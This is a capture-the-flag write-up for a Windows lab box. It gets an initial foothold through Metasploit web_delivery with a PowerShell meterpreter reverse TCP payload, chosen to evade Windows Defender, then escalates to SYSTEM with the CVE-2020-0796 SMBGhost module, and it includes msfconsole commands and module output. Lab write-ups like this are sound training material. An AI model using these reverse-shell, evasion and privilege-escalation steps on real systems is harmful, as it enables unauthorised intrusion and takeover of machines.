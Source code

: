 # So I fucked up a bit

Windows Defender turned itself on constantly (like any decent AV), and made the challenge way harder than it was intended to be. As such, it's way out of your league. But I'll still make a writeup to explain it.

# Requirements

You need the latest (or at least reasonably new) Metasploit version. I will also assume you completed Fluffy II and fully understand the RCE vulnerability in this box.

# Summary

The exploit to use is CVE 2020 0796. 

# Down to the actual steps to SYSTEM

## Getting the initial Metasploit Session

First, let's open Metasploit

```bash
msfconsole
```

Windows Defender is very capable of detecting file payloads, so let's instead use Powershell to inject Meterpreter.

```msfconsole
use exploit/multi/script/web_delivery
```

Let's set this up

```msfconsole
set target PSH    //Set target to Powershell
set payload windows/x64/meterpreter/reverse_tcp_rc4     //If you must use meterpreter, always use rc4 to avoid detection.
```

*Sidenote: Remember why you can't use reverse shells with your house router. Check out how to fix this in Scriptures*

Let's check our options
```
options
```
![alt text](https://imgur.com/6Nwqpet.png)
*You don't need to follow my ports and ip. But make sure you change rc4password.*

So now we're good to go.

```msfconsole
run
```
This will give us a command. Execute this command on the website

![alt text](https://imgur.com/zsSWluL.png)

Now we have our first Metasploit session. Standard Operating Procedure. This will work on most windows targets.

## The actual exploit

Let's attach to the session (so you should see a meterpreter> prefix). Let's check sysinfo to see the windows version we're dealing with.

![alt text](https://imgur.com/d5QP00S.png)

Windows Build 18362 hmm? Let's google that.

![alt text](https://imgur.com/xFOtM69.png)

So it's version 1903, released in May 2019. Cool. 

Let's start with a crappy metasploit search

```msfconsole
search type:exploit platform:windows 1903
```
*I call this a crappy search, because it will omit a lot of working results because of bad documentation. But if it works, good for you.*

![alt text](https://imgur.com/fB5HYCu.png)
*Ah yes. An exploit from 2006. Crappy search. But hey, we have a 2020 exploit. Let's check it out*

```msfconsole
info exploit/windows/local/cve_2020_0796_smbghost
```
Output:
```
       Name: SMBv3 Compression Buffer Overflow
     Module: exploit/windows/local/cve_2020_0796_smbghost
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2020-03-13

Provided by:
  Daniel García Gutiérrez
  Manuel Blanco Parajón
  Spencer McIntyre

Module stability:
 crash-os-restarts

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Windows 10 v1903-1909 x64

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on.

Payload information:

Description:
  A vulnerability exists within the Microsoft Server Message Block
  3.1.1 (SMBv3) protocol that can be leveraged to execute code on a
  vulnerable server. This local exploit implementation leverages this
  flaw to elevate itself before injecting a payload into winlogon.exe.

References:
  https://cvedetails.com/cve/CVE-2020-0796/
  https://github.com/danigargu/CVE-2020-0796
  https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
  ```

So this exploit will use the SMB protocol to execute privileged code, and works on v1903 to 1909. If we're lucky this should be sufficient.
Let's set it up.

![alt text](https://imgur.com/1JCBGYM.png)

*Set the session, port and ip relative to yourself.*

Now, let's run it!

![alt text](https://imgur.com/zRFmctM.png)

Ah. A little rough, our first session got killed by Defender. But hey, we managed to get a new session. Let's check it.

*There may be a freeze. Just Ctrl-C.*

Let's attach to that session with the ``sessions <id>`` command.

Let's check getuid...

![alt text](https://imgur.com/S4Sp3kG.png)

Rooted. We're done.

![alt text](https://imgur.com/rtaNibm.png)


# Just a Footnote

There are many ways to reach System. Comahawk is a vulnerability that also works (But not the one in metasploit because it gets flagged by Windows Defender)

This answer is definitely not the best, because if anything gets killed by Defender, the victim will be alerted. So that's no bueno

This tutorial assumes that you know just a little bit about metasploit, so it's not truly a step by step tutorial, just that it shows the general idea of things. If you don't understand something, pester Leonard.


